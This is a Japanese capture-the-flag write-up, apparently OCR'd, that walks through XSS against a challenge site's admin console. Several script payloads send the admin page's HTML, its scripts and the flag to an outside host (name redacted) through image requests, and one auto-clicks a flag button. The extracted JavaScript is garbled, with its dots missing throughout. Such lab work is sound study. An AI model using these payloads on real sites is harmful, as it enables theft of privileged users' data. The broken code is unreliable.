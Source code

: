 `.admin_console` に admin だけが閲覧できるコンテンツが出力されるようです。XSS で確認してみましょう。`<script>window.onload=()=>{(new Image).src='https://(省略)?'+encodeURIComponent(document.getElementsByClassName('admin_console')[0].innerHTML);}</script>` で以下のようなアクセスが来ました。

```
?%0A____________________%3C%21--_Only_the_admin_can_see_this_--%3E%0A____________________%0A________________________%0A____________________________%3Cbutton_class%3D%22btn_btn-primary_flag-button%22%3EAccess_Flag%3C%2Fbutton%3E%0A%0A%3Ca_href%3D%22%2Fbutton%22_class%3D%22btn_btn-primary_other-button%22%3EDelete_User%3C%2Fa%3E%0A%0A%3Ca_href%3D%22%2Fbutton%22_class%3D%22btn_btn-primary_other-button%22%3EDelete_Post%3C%2Fa%3E%0A_%0A________________________%0A____________________%0A________________=
```

`<button class="btn btn-primary flag-button">Access Flag</button>` という謎のボタンが生えています。どこかでイベントハンドラを生やしているのでしょうか。`script` 要素のコンテンツを収集してみましょう。`<script>window.onload=()=>{(new Image).src='https://(省略)?'+encodeURIComponent(Array.from(document.getElementsByTagName('script')).reverse()[0].innerHTML);}</script>` で以下のようなコードが抽出できました。

```javascript
            $('#responseAlert') css('display','none');
            $('#report') on('click',function(e){
                $ ajax({
                    type: "GET",
                    url: window location pathname+"/report",
                    success: function(resp) {
                        $("#responseAlert") text(resp); $("#responseAlert") css("display","");
                    }
                })
            });
                var flag='';
                f=function(e){
                    $ ajax({
                        type: "GET",
                        url: "/admin_flag",
                        success: function(resp) {
                            flag=resp;$("#responseAlert") text(resp); $("#responseAlert") css("display","");
                        }
                    })
                    return flag;
                };
                $(' flag-button') on('click',f);
```

`/admin_flag` を GET すればフラグが得られそうです。やってみましょう。`<script>window.onload=()=>{document.getElementsByClassName('flag-button')[0].click(); setTimeout(()=>{(new Image).src='https://(省略)?'+encodeURIComponent(document.getElementById('responseAlert').innerHTML)}, 1000);}</script>` で以下のようなアクセスが来ました。

```
?This_post_contains_unsafe_content__To_prevent_unauthorized_access%2C_the_flag_cannot_be_accessed_for_the_following_violations%3A_Script_tags_found__Single_quote_found__Parenthesis_found__=
```

`<script>` `'` `(` `)` が検知されるとフラグを返してくれなくなるようです。いろいろ試していると、`"` とバックティックも使えないことがわかりました。
